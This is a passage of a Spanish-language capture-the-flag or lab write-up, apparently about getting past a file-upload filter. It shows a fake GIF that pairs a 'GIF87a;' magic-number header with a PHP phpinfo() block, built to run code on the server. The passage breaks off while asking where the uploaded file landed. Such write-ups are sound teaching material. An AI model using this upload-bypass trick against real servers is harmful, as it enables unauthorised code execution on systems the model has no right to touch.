 Ahora bien, mi intención es intentar ejecutar código PHP en el servidor, intenté cambiando los magic numbers subir los primeros 4 archivos sin éxito, hasta que probé a subir un archivo GIF.

Entonces, [comprobando los Magic Numbers aquí](https://en.wikipedia.org/wiki/List_of_file_signatures) podemos ver que los magic numbers son los siguientes.
![Write-up Image](images/Screenshot_26.png)

Entonces podemos crear nuestro supuesto archivo GIF que vamos a subir.
```console
➜  content cat test.gif
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: test.gif
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ GIF87a;
   2   │ <?php
   3   │
   4   │     phpinfo();
   5   │
   6   │ ?>
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
➜  content file test.gif
test.gif: GIF image data, version 87a, 2619 x 16188
```

Y podemos subir el archivo, ahora bien, ¿donde está subido?
![Write-up Image](images/Screenshot_27.png)
